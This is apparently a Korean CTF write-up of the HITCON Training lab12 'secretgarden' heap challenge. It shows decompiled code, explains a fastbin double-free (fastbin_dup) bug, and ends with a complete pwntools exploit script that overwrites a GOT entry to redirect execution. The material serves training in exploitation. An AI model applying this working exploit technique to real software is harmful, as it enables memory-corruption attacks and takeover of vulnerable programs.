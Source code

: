```yaml
---
layout: post
title: "[HITCON Training] lab12"
comments : true
category : War Game
---
```


# 문제
***

secretgarden 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
secretgarden: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=22cb8aae67a3f8faed65bd339fa5b1eff20ae57d, not stripped
```

바이너리 코드

__add()__
```c
int add()
{
    ...
    size_t size; // [rbp-20h] 
    ...
    LODWORD(size) = 0;
    ...
    else
    {
        s = malloc(0x28);
        memset(s,0,0x28);
        printf("Length of the name :");
        if ((unsigned int)__isoc99_scanf("%u",&size) == -1 )
            exit(-1);
        buf = malloc((unsigned int)size);
        ...
        printf("The name of flower :")
        read(0,buf,(unsigned int)size);
        *((_QWORD *)s+1) = buf;
        printf("The color of the flower :");
        __isoc99_scanf("%23s", (char *)s+16);
        *(_DWORD *)s = 1;
        for(HIDWORD(size) = 0; HIDWORD(size) < 0x63; ++HIDWORD(size))
        {
            if (!*(&flowerlist + HIDWORD(size)))
            {
                *(&flowerlist + HIDWORD(size)) = s;
                break;
            }
        }
        ++flowercount;
        result = puts("Successful !");
    }
    ...
}
```

__del()__
```c
int del()
{
    ...
    if (flowercount)
    {
       printf("Which flower do you want to remove from the garden");
       __isoc99_scanf("%d",&v2);
       if (v2 <= 0x63 && *(&flowerlist + v2))
       {
           *(_DWORD *)*(&flowerlist + v2) = 0;
           free(*((void **)*(&flowerlist+v2)+1));
           puts("Successful");
       }
    }
    ...
}
```

64비트에서 fastbin은 0x20 - 0xb0 (16 바이트 간격) <br/>

__del()__ 함수에서는 __add()__ 함수에서 flower name을 저장하기 위해 할당한 chunk를 free 한다. 이 때 해당 chunk가 free chunk인지 검증을 하지 않고 free를 하기 때문에 fastbin_dup 취약점이 존재한다. 

## fastbin_dup 취약점
__조건__
- 동일한 크기의 fast chunk의 할당 및 free가 자유로워야 한다.
- free된 fast chunk를 한 번 더 free할 수 있어야 한다. (double free bug)

<br/>
__공격 방법__
- 동일한 크기의 chunk 3개 할당 (chunk 1,2,3)
- chunk 1 free 후 chunk 2 free
- chunk 1 다시 free
- 위의 chunk와 동일한 크기의 chunk 3개 할당
- chunk 4와 chunk 6의 주소가 동일함

## exploit 방법
1. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복) 
2. __del()__ 함수를 통해서 첫 번재와 두 번재로 할당받은 chunk를 free한다.
3. __del()__ 함수를 통해서 첫 번째로 할당받은 chunk를 free한다.
4. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. chunk의 앞 8바이트에 (원하는 영역 -16) 을 쓴다.
5. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복)
6. 5번을 통해서 내가 원하는 영역을 chunk로 할당받을 수 있다. 

__주의할 점__ <br/>
내가 원하는 chunk를 할당받기 위해서는 (원하는 영역 -8)에 해당 chunk의 사이즈가 정확히 setting 되어 있어야 한다. 즉 위에서는 (원하는 영역 -8)에 0x60이 저장되어 있어야 한다. 근데 사이즈 체크를 할 때 하위 4바이트만 가지고 체크하는 것 같다. 이 문제에서 (원하는 영역 -8)에 0x??00000000000060이 저장되어 있는데 할당이 된다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round4/lab12/secretgarden"

def add(length,name,color):
	p.recvuntil("choice : ")
	p.send("1")
	p.recvuntil("name :")
	p.sendline(length)
	p.recvuntil("flower :")
	p.send(name)
	p.recvuntil("flower :")
	p.sendline(color)
	p.recvuntil("!\n")

def del_name(index):
	p.recvuntil("choice : ")
	p.send("3")
	p.recvuntil("garden:")
	p.sendline(index)
	p.recvuntil("Successful\n")

p=process(file_path)

got_sec=0x602002-8
magic=0x400c7b

add("80","3ffr3s","green")
add("80","w1ll_exploit","green")
#add("80","secret_garden","green")

del_name("0")
del_name("1")
del_name("0")

add("80",p64(got_sec),"ha_we")
add("80","plz!!!","ba_we")
add("80","asldkjf","123")

p.recvuntil("choice : ")
p.send("1")
p.recvuntil("name :")
p.sendline("80")
p.recvuntil("flower :")
p.send("AAAAAA"+"\x00"*8+p64(magic)*2)
p.recvuntil("flower :")
p.sendline("finish!!!")

p.interactive()
```

